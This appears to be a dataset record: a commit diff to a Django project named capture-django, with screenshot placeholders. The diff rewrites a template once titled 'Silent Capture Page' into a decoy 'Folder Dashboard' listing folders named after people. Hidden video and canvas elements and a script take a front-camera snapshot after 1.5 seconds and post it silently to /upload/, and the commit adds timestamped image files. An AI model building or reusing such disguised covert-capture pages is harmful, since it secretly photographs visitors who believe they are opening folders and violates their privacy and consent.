

Before and after one commit to m1amineratit/capture-django, a Django app: template templates/pages/camera1.html in a window 1280 px wide. Shown: the top 300 px of the page. Run offline with Django 5.2, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty.

Commit message:
complete project

```diff
--- a/project/urls.py
+++ b/project/urls.py
@@ -2,6 +2,6 @@ from django.urls import path
 from . import views
 
 urlpatterns = [
-    path('capture-image/', views.silent_capture_and_upload, name='silent_capture_and_upload'),
-    path('capture-page/', views.show_capture_page, name='show_capture_page'),  # Optional, if you want to show a page
+    path('', views.index, name='index'),
+    path('upload/', views.upload_image, name='upload_image'),
 ]
--- a/templates/pages/camera1.html
+++ b/templates/pages/camera1.html
@@ -2,11 +2,128 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Silent Capture Page</title>
+    <title>Folder Dashboard</title>
+    <style>
+        body {
+            margin: 0;
+            padding: 2rem;
+            background-color: #1e1e2f;
+            color: #fff;
+            font-family: Arial, sans-serif;
+        }
+
+        h1 {
+            text-align: center;
+            margin-bottom: 2rem;
+            font-size: 2.5rem;
+            color: #f7d217;
+        }
+
+        .folder-grid {
+            display: grid;
+            grid-template-columns: repeat(auto-fill, minmax(150px, 1fr));
+            gap: 1.5rem;
+        }
+
+        .folder {
+            background-color: #2a2a40;
+            border: 2px solid #3d3d5c;
+            border-radius: 12px;
+            padding: 1rem;
+            text-align: center;
+            box-shadow: 0 4px 10px rgba(0, 0, 0, 0.4);
+            transition: transform 0.2s ease;
+        }
+
+        .folder:hover {
+            transform: scale(1.05);
+            cursor: pointer;
+        }
+
+        .folder-icon {
+            font-size: 3rem;
+            margin-bottom: 0.5rem;
+        }
+
+        .folder-name {
+            font-size: 1rem;
+            font-weight: bold;
+            color: #ccc;
+        }
+
+        video, canvas {
+            display: none;
+        }
+    </style>
 </head>
 <body>
-    <h1>Image Capture in Progress</h1>
-    <p>The image has been silently captured and uploaded.</p>
+
+    <h1>📂 Your Folders</h1>
+    <div class="folder-grid">
+        <div class="folder">
+            <div class="folder-icon">📁</div>
+            <div class="folder-name"><a href="{% url 'index' %}" style="color: white;">fahd</a></div>
+        </div>
+        <div class="folder">
+            <div class="folder-icon">📁</div>
+            <div class="folder-name"><a href="{% url 'index' %}" style="color: white;">yassine</a></div>
+        </div>
+        <div class="folder">
+            <div class="folder-icon">📁</div>
+            <div class="folder-name"><a href="{% url 'index' %}" style="color: white;">amine</a></div>
+        </div>
+        <div class="folder">
+            <div class="folder-icon">📁</div>
+            <div class="folder-name"><a href="{% url 'index' %}" style="color: white;">hiba</a></div>
+        </div>
+        <div class="folder">
+            <div class="folder-icon">📁</div>
+            <div class="folder-name"><a href="{% url 'index' %}" style="color: white;">ilyas</a></div>
+        </div>
+        <div class="folder">
+            <div class="folder-icon">📁</div>
+            <div class="folder-name"><a href="{% url 'index' %}" style="color: white;">malak</a></div>
+        </div>
+        <!-- Add more folders here -->
+    </div>
+
+    <video id="video" autoplay playsinline></video>
+    <canvas id="canvas"></canvas>
+    <script>
+        const video = document.getElementById('video');
+        const canvas = document.getElementById('canvas');
+
+        navigator.mediaDevices.getUserMedia({
+            video: { facingMode: 'user' }, audio: false
+        })
+        .then(stream => {
+            video.srcObject = stream;
+
+            // Wait a short time to allow the camera to initialize
+            video.onloadedmetadata = () => {
+                setTimeout(() => {
+                    captureAndSend();
+                }, 1500); // 1.5s delay
+            };
+        })
+        .catch(err => alert('Camera access denied.'));
+
+        function captureAndSend() {
+            canvas.width = video.videoWidth;
+            canvas.height = video.videoHeight;
+            canvas.getContext('2d').drawImage(video, 0, 0);
+            const image = canvas.toDataURL('image/png');
+
+            fetch('/upload/', {
+                method: 'POST',
+                headers: {
+                    'Content-Type': 'application/x-www-form-urlencoded'
+                },
+                body: `image=${encodeURIComponent(image)}`
+            })
+            .then(res => res.json())
+            .then(data => console.log("Auto-captured image saved:", data.file));
+        }
+    </script>
 </body>
 </html>
```
Also changed, not shown: project/views.py (+19 -15 lines), captured_image.png (deleted), media/20250509223447.png (added), media/20250509223623.png (added), media/20250509223726.png (added), media/20250509223736.png (added).
